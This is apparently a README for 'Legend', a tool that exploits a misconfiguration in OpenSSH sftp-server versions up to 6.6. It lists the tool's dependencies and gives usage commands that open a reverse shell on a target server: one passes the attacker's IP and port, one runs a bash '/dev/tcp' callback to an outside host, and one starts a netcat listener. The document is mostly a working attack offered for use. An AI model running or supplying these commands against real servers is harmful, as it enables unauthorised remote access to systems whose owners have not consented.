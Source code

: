 # Legend
OpenSSH &lt;= 6.6 SFTP (sftp-server) misconfiguration exploit



## Dependencies
pip3 install paramiko
pip3 install --upgrade git+https://github.com/arthaud/python3-pwntools.git



## Usage
Reverse shell with python
```sh
./legend.py -r $sftp_ip -p $sftp_port -u $sftp_user -P $sftp_pass -b "$your_ip $your_port"
```

Reverse shell with bash
```sh
./legend.py -r 1.1.1.1 -p 22 -u user -P pass -c "/bin/bash -pi >& /dev/tcp/2.2.2.2/443 0>&1"
```

Listening on $your_port
```
sudo nc -nlvp 443
```
